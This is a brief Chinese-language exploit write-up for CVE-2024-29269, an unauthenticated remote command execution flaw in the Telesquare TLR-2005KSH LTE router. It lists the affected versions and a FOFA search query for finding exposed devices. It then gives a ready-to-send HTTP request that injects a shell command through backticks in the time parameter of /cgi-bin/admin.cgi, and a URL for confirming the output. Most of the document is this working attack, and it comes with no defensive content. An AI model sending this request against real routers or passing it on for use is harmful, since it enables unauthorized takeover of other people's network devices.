

# CVE-2024-29269

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Telesquare TLR-2005KSH路由器未授权远程命令执行漏洞


## 0x01 前言

**Telesquare TLR-2005KSH**是韩国Telesquare公司的一款SK电讯Lte路由器。

## 0x02 漏洞描述

**Telesquare TLR-2005Ksh**存在未经授权的远程命令执行漏洞。

攻击者可以利用此漏洞在未经身份验证的情况下使用cmd参数执行系统命令，并获取服务器权限。

## 0x03 影响版本

`Telesquare TLR-2005Ksh 1.0.0、1.1.4版本`

## 0x04 FOFA语法

```
app:"TELESQUARE-TLR-2005KSH"
```

## 0x05 漏洞复现

```
GET /cgi-bin/admin.cgi?Command=setSyncTimeHost&time=`id>1.txt` HTTP/1.1
Host: {target-ip}:{port}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
Connection: close
```



验证 通过下面地址查看是否有回显

```
http://{target-ip}:{port}/cgi-bin/1.txt
```